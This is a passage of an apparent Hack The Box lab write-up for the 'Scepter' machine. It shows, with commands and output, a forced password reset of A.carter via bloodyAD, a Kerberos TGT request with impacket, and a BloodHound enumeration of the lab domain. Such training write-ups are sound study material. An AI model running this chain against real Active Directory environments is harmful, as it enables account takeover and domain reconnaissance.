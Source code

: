 ![](images/Pasted%20image%2020250718163224.png)
We can force change the password of `A.carter`
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Scepter]
└─$ bloodyAD -k --host dc01.scepter.htb -d scepter.htb -u 'D.BAKER' set password A.CARTER 'Abc123456@' 
[+] Password changed successfully!
```

Then we can get the `TGT ticket` of `a.carter`
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Scepter]
└─$ impacket-getTGT scepter.htb/'a.carter':'Abc123456@' 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in a.carter.ccache

┌──(wither㉿localhost)-[~/Templates/htb-labs/Scepter]
└─$ export KRB5CCNAME=a.carter.ccache 
```

# Bloodhound by A.Carter
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Scepter]
└─$ bloodhound-python  -u 'a.carter' -p 'Abc123456@' -k -d scepter.htb -ns 10.10.11.65 -c ALl --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: scepter.htb
INFO: Using TGT from cache
INFO: Found TGT with correct principal in ccache file.
INFO: Connecting to LDAP server: dc01.scepter.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.scepter.htb
INFO: Found 11 users
INFO: Found 57 groups
INFO: Found 2 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc01.scepter.htb
INFO: Done in 01M 32S
INFO: Compressing output into 20250718165046_bloodhound.zip
```
